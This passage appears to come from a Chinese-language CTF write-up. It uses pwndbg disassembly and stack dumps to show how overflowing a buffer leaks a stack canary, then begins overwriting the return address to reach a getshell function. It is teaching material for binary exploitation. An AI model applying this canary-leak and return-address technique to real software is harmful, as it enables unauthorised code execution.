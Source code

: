 ```asm

   0x557c8443aa0d    lea    rax, [rbp - 0x30]
   0x557c8443aa11    mov    edx, 0x60
   0x557c8443aa16    mov    rsi, rax
   0x557c8443aa19    mov    edi, 0
   0x557c8443aa1e    call   0x557c8443a7f0

   0x557c8443aa23    mov    eax, 0
   0x557c8443aa28    mov    rcx, qword ptr [rbp - 8]
   0x557c8443aa2c    xor    rcx, qword ptr fs:[0x28]
   0x557c8443aa35    je     0x557c8443aa3c

   0x557c8443aa37    call   0x557c8443a7c0
────────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────────
00:0000│ rsi rsp  0x7ffd97aa0410 ◂— 0x6161616161616161 ('aaaaaaaa')
... ↓
05:0028│          0x7ffd97aa0438 ◂— 0xb3012605fc402a61
06:0030│ rbp      0x7ffd97aa0440 —▸ 0x7ffd97aa0460 —▸ 0x557c8443aa80 ◂— push   r15
07:0038│          0x7ffd97aa0448 —▸ 0x557c8443aa6a ◂— mov    eax, 0
Breakpoint *(0x557c8443a000+0xA08)
pwndbg> canary
$1 = 0
canary : 0xb3012605fc402a00
pwndbg>
```

canary 在 rbp - 0x8 的位置上, 可以看出此时 canary 的低位已经被覆盖为 0x61, 这样只要接收 'a' * (0x30 - 0x8 + 1) 后的 7 位, 再加上最低位的 '\0', 我们就恢复出程序的 canary 了

#### 覆盖返回地址
有了 canary 后, 就可以通过第二次的栈溢出来改写返回地址了, 控制返回地址到 getshell 函数即可, 我们先看一下没溢出时的返回地址
```asm
0x000055dc43694a1e in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────────
 RAX  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RBX  0x0
 RCX  0x7f206c6696f0 (__write_nocancel+7) ◂— cmp    rax, -0xfff
 RDX  0x60
 RDI  0x0
 RSI  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 R8   0x7f206cb22700 ◂— 0x7f206cb22700
 R9   0x3e
 R10  0x73
 R11  0x246
 R12  0x55dc43694830 ◂— xor    ebp, ebp
 R13  0x7fff9aa3b050 ◂— 0x1
 R14  0x0
 R15  0x0
 RBP  0x7fff9aa3af50 —▸ 0x7fff9aa3af70 —▸ 0x55dc43694a80 ◂— push   r15
 RSP  0x7fff9aa3af20 ◂— 0x6161616161616161 ('aaaaaaaa')
 RIP  0x55dc43694a1e ◂— call   0x55dc436947f0
───────────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────────
   0x55dc43694a08    call   0x55dc436947e0
 
   0x55dc43694a0d    lea    rax, [rbp - 0x30]
   0x55dc43694a11    mov    edx, 0x60
   0x55dc43694a16    mov    rsi, rax
   0x55dc43694a19    mov    edi, 0
 ► 0x55dc43694a1e    call   0x55dc436947f0
 
```